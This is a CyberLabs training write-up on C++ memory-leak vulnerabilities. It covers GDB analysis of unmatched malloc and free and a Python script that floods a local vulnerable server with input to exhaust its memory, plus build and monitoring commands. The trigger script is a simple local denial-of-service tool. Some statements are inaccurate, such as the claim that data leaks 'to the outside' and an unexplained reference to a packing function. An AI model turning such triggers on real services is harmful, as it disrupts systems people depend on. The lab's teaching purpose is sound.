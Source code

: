 # CyberLabs: Memory Leak Vulnerability Laboratory

**Module Code:** CL-MEM-003

**Level:** Intermediate

**Topic:** Resource Exhaustion Vulnerabilities

## Laboratory Purpose

This laboratory, prepared for the CyberLabs education platform, addresses one of the frequently encountered resource exhaustion vulnerabilities: **Memory Leak**. Participants are expected to gain the following competencies by the end of this laboratory:

  - Understanding the basic causes of Memory Leak vulnerability and its Denial of Service (DoS) effect.
  - Grasping the critical importance of matching `new` and `delete` in dynamic memory management in C++.
  - Compiling C++ programs with `g++`.
  - Writing a Python script that triggers the vulnerability and records its effects.
  - Proving the impact of the vulnerability by monitoring a process's memory usage live using Linux system tools (`ps`, `watch`).

## Disclaimer / Legal Warning

The information provided in this blog post is intended for educational and informational purposes only. It is not intended to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks, or data.

The information provided in this blog post is for educational and informational purposes only. It does not intend to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks, or data.

This laboratory content is designed entirely for the **CyberLabs educational environment**. The purpose of the information and codes here is to help cybersecurity experts better understand defense mechanisms and develop vulnerability analysis capabilities. The use of these materials outside the CyberLabs environment or for illegal purposes is strictly prohibited, and all responsibility belongs to the user.

## Scenario

The laboratory scenario consists of two main components:

1.  `leaky_server.cpp`: Target application written in C++ that intentionally contains a Memory Leak vulnerability.
2.  `trigger_and_log_leak.py`: Python script that continuously sends requests to the vulnerable application to trigger the memory leak and records the program's increasing memory usage to a file.

## Installation and Execution Steps

### Example Code Analysis

First, we need to examine our codes to analyze the vulnerability, but this time I prefer to do a blind analysis. That is, I want to explain what we experience in a blackbox analysis. You can access the source codes from here.

First, we open our code with GDB in the now classic way.

At this stage, as we explained before, we need to break malloc() and free() variables and stop the debugger at this point. For this, we need to use "break malloc" and "break free" commands.

When we use the relevant values, we see that malloc value is allocated, that is, we make the first check. Unlike overflow vulnerabilities, there is no padding size here, so our goal here is to read the area that is not freed as free().

And we get our BINGO value with the second check, because when we enter the "continue" command, we see that it does not get stuck at the free() breakpoint. This shows us that the area is not freed. At this point, since we detect that malloc exists but there is no free command, we need to write a tool. We can write this in Python language.

```cpp
import subprocess
import time
import sys
import os

VICTIM_PROGRAM = "./vulnerable_server"
```

First, I import the libraries and show the path of the target program.

```cpp
try:
        # We start the victim program as a subprocess.
        p = subprocess.Popen([VICTIM_PROGRAM], stdin=subprocess.PIPE, stderr=subprocess.PIPE)
    except FileNotFoundError:
        print(f"[!] ERROR: '{VICTIM_PROGRAM}' not found. Did you compile the C program?")
        sys.exit(1)

    leak_count = 0
    try:
        while True:
            p.stdin.write(b'\n')
            p.stdin.flush()
            leak_count += 1
            if leak_count % 1000 == 0:
                print(f"[*] {leak_count * 10 / 1024:.2f} KB memory leaked...")
            time.sleep(0.001) # Very short wait to not tire the system
    except (KeyboardInterrupt, BrokenPipeError):
        print("\n[*] Triggering stopped. Terminating victim program.")
        p.terminate()
```

Now I start the program and determine how much leakage there is.

And I see that the data is successfully leaked to the outside. At this stage, I verify the vulnerability and confirm that leakage is occurring in the system.

## Linux Compatibility

This lab is designed to work on both Linux and macOS systems:

### Compilation for Linux
```bash
# Special compilation script for Linux
./compile_linux.sh

# Or manual compilation
g++ -o compiled/vulnerable_server source_code/vulnerable_server.cpp -g -static-libgcc -static-libstdc++
```

### Requirements
- **Linux:** `g++`, `build-essential`, `libc6-dev`
- **macOS:** `g++` (Xcode Command Line Tools)
- **Python:** `python3`, `pwntools`

### Testing
```bash
# Run all tests
./test_lab.sh

# Run exploit
python3 source_code/exploit.py
```

### Memory Monitoring
To monitor memory usage during exploit:
```bash
watch -n 1 'ps -p $(pgrep vulnerable_server) -o %mem,rss,vsz,cmd'
```

The exploit automatically detects system architecture and uses the appropriate packing function.
